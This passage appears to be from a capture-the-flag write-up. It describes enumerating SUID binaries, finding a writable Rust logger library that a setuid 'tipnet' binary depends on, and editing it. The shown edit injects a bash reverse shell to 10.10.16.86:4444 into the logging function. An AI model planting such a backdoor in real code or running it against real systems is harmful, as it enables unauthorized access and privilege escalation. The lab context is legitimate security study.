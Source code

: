 ```
find / -perm /4000 2>/dev/null
```

And this catch my attention:

```
/opt/tipnet/target/debug/tipnet
/opt/tipnet/target/debug/deps/tipnet-a859bd054535b3c1
/opt/tipnet/target/debug/deps/tipnet-dabc93f7704f7b48
```

On the folder  `/opt/tipnet/target/debug/`there was a (file!?) called `tipnet.d` and inside of it I was able to see two "rs" files (rust) more. And in one of them I had permissions to write 

```
cat tipnet.d

/opt/tipnet/target/debug/tipnet: /opt/crates/logger/src/lib.rs /opt/tipnet/src/main.rs
```

I edited it with nano

nano /opt/crates/logger/src/lib.rs

From this:
(when you cat it you will see it indented in a right way )
```
use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;

pub fn log(user: &str, query: &str, justification: &str) {

  let now = Local::now();
  let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
  let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n",    timestamp, user, query, justification);
  let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
  Ok(file) => file,
  Err(e) => {
    println!("Error opening log file: {}", e);
    return;
  }
};
 if let Err(e) = file.write_all(log_message.as_bytes()) {
   println!("Error writing to log file: {}", e);
  }
}
```

To this:


```
use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {

  let output = Command::new("bash")

    .arg("-c")
    .arg("bash -i >& /dev/tcp/10.10.16.86/4444 0>&1")
    .output()
    .expect("failed to execute process");

```